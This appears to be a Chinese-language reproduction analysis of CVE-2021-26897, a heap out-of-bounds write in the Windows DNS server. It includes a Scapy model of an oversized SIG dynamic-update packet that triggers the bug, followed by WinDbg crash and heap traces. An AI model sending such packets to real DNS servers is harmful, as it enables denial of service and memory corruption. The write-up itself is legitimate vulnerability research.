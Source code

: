 [![](https://p4.ssl.qhimg.com/t0132288a622681f76d.png)](https://p4.ssl.qhimg.com/t0132288a622681f76d.png)



## CVE-2021-26897 漏洞复现分析
- 发送许多连续的 SIG 资源记录动态更新可触发此漏洞
- 将许多连续的 SIG 资源记录动态更新进行组合并将字符串进行 Base64 编码时在堆上引发 OOB 写操作
根据已有信息，可构造以下数据包。更新类型为 SIG，记录超长（signature 字段超长）。注意这次需使用 TCP 连接，Scapy 不能直接构造，以下仅为模型：

```
query = DNSQR(qname='mal', qtype='SOA')
    RRSIG = DNSRRRSIG(rrname=str(RandString(8))+'.mal', type="SIG", ttl=300,signersname="A.mal",signature='\x00'*0xff00)
    packet = IP(dst=ip)/TCP()/DNS(id=random.randint(0,65535),opcode=5,qd=query,ns=RRSIG)
```

以下为抓包数据：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t015ebf1b5c7c866b95.png)

漏洞触发现场以及函数调用堆栈如下，异常的原因是 0x2713533c000 无法访问。漏洞触发是在 Dns_SecurityKeyToBase64String 函数（用于 Base64 编码）中。

```
0:011&gt; g
(874.c34): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
dns!Dns_SecurityKeyToBase64String+0x66:
00007ff7`50d02c3a 41884001        mov     byte ptr [r8+1],al ds:00000271`3533c000=??
0:011&gt; k
 # Child-SP          RetAddr           Call Site
00 000000bc`b867f3a8 00007ff7`50cc7f02 dns!Dns_SecurityKeyToBase64String+0x66
01 000000bc`b867f3b0 00007ff7`50bc26a9 dns!SigFileWrite+0x1f2
02 000000bc`b867f4a0 00007ff7`50bc244e dns!RR_WriteToFile+0x205
03 000000bc`b867f500 00007ff7`50bc1c92 dns!writeNodeRecordsToFile+0xa6
04 000000bc`b867f560 00007ff7`50bc1cb1 dns!zoneTraverseAndWriteToFile+0x42
05 000000bc`b867f590 00007ff7`50bc18f5 dns!zoneTraverseAndWriteToFile+0x61
06 000000bc`b867f5c0 00007ff7`50c6a2a3 dns!File_WriteZoneToFile+0x379
07 000000bc`b867f6c0 00007ff7`50c6a388 dns!Zone_WriteBack+0xfb
08 000000bc`b867f700 00007ff7`50d00580 dns!Zone_WriteBackDirtyZones+0xb4
09 000000bc`b867f790 00007ff7`50c56a74 dns!Zone_WriteBackDirtyVirtualizationInstances+0x110
0a 000000bc`b867f7c0 00007ff7`50c550ad dns!Timeout_Thread+0x544
```

查看出现问题的缓冲区，可以发现，其首地址为 0x271352bbff0 ，UserSize 为 0x80010，是在 File_WriteZoneToFile 函数中调用 Mem_Alloc 分配的。

```
0:011&gt; !heap -p -a 271`3533c000
    address 000002713533c000 found in
    _DPH_HEAP_ROOT @ 271126b1000
    in busy allocation (  DPH_HEAP_BLOCK:         UserAddr         UserSize -         VirtAddr         VirtSize)
                             27132a2ca90:      271352bbff0            80010 -      271352bb000            82000
    00007fff07e86d67 ntdll!RtlDebugAllocateHeap+0x000000000000003f
    00007fff07e2cade ntdll!RtlpAllocateHeap+0x000000000009d27e
    00007fff07d8da21 ntdll!RtlpAllocateHeapInternal+0x0000000000000991
    00007ff750cc2b4d dns!allocMemory+0x0000000000000039
    00007ff750cc2f28 dns!Mem_Alloc+0x000000000000008c
    00007ff750bc178c dns!File_WriteZoneToFile+0x0000000000000210
    00007ff750c6a2a3 dns!Zone_WriteBack+0x00000000000000fb
    00007ff750c6a388 dns!Zone_WriteBackDirtyZones+0x00000000000000b4
    00007ff750d00580 dns!Zone_WriteBackDirtyVirtualizationInstances+0x0000000000000110
    00007ff750c56a74 dns!Timeout_Thread+0x0000000000000544
```